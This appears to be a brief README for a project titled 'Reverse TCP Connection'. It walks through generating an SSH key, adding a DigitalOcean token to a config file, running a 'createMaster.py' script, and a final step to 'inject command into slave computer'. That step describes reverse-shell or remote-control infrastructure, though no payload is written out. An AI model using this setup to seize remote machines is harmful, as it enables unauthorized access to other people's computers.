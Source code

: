 # Reverse TCP Connection


 1. Create Key

    ```bash
    cd keys/ && ssh-keygen
    Enter file in which to save the key (/root/.ssh/id_rsa): digitalOceanKey
    Enter passphrase (empty for no passphrase): 
    Enter same passphrase again: 
    Your identification has been saved in digitalOceanKey.
    Your public key has been saved in digitalOceanKey.pub.
    ```

 2. Fill in Config 

   Add your digitalocean token to config.py
  
 3. Run createMaster.py
        
    `python3 createMaster.py`

 4. Inject command into slave computer 
